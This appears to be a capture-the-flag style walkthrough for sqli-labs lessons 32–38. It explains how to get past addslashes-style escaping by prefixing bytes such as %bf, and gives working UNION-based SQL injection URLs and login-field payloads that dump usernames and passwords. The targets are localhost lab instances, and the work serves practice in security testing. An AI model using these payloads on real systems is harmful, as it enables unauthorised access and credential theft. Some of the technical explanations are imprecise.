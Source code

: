 # Chapter-11

This chapter covers the last topic taught in the sqli-labs video series. 

## Bypassing addslashes - charset Mismatch

There are ways by which the developer can prevent an attacker from injecting backslashes by sanitizing the query. 

Here is a ```php``` code snippet that does the same - 

```php
function check_addslashes($string)
{
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
    $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
    $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash
      
    
    return $string;
}
```

In such cases adding a ```'``` or ````"``` or ```\``` to the query will be pointless. 

However we can still bypass this check by manipulating the encoding of the text. 

The above code snippet will remove all occurrences of 8-bit acsii characters but it will not be able to do anything with 16 or 32 bit character encoding. 

There we can inject a 16-bit or 32-bit encoded payloads to the query. 

:warning: The maximum value for ascii in hex is ```7F```. Therefore using any value greater than that can break the query. 

## Lesson 32 

In this challenge, all single quotes, double quotes and backslashes are being escaped. 

In order to bypass this, we can inject values greater that ```7F``` in ascii followed by our payload. 

The url for this challenge will look somewhat like this - 

```
http://localhost/sqlilabs/Less-32/?id=-2%8F' union select 1, group_concat(username), group_concat(password)  from users limit 1--+
```

## Lesson 33

This challenge is pretty much the same as the previous challenge. 

The url for this challenge will look somewhat like this - 

```
http://localhost/sqlilabs/Less-33/?id=-1%8F' union select 1, group_concat(username), group_concat(password) from users limit 0, 1 --+
```

## Lesson 34

Look [here](#) before attempting this challenge.

Here the login page escapes single quotes, double quotes and backslashes. 

We can bypass this by passing the following to the username field - 

```
admin%bf' or 1 #
```

Now in order to get all the usernames and passwords we can inject the following into the input field - 

```
admin%bf' union select group_concat(username), group_concat(password) from users limit 0, 1 #
```

:warning: Solving this challenge in ```Burp suite``` makes it a lot easier.

:boom: If you are get any mysql errors when the above payload is used in the input field in ```Burp```, please have a look at the encoding of the payload.

## Lesson 35 

This one is a bit tricky as we might miss the obvious. 

We can solve this challenge by not breaking the query. This is a simple direct injection. 

The url will look somewhat like this - 

```
http://localhost/sqlilabs/Less-35/?id=-1 union select 1, group_concat(username), group_concat(password) from users limit 0, 1 --+
```

## Lesson 36

This one quite simple. This is exactly the same as lesson 32.

The url is as follows - 

```
http://localhost/sqlilabs/Less-36/?id=-4%bf' union select 1, group_concat(username), group_concat(password) from users limit 0, 1 --+
```

## Lesson 37

This is exactly the same as lesson 34. 

We can exploit the website by passing the following in the input field -

```
admin%bf' union select group_concat(username), group_concat(password) from users limit 0, 1 #
```

:warning: ```Burp``` suite can be used to simplify this challenge.

## Lesson 38

This is rather simple challenge. 

The url for this challenge is as follows -

```
http://localhost/sqlilabs/Less-38/?id=-1' union select 1, group_concat(username), group_concat(password) from users limit 0, 1 --+
```

:star2: Yaaaaay! This was the last challenge in the advanced section of ```sqli-labs```. 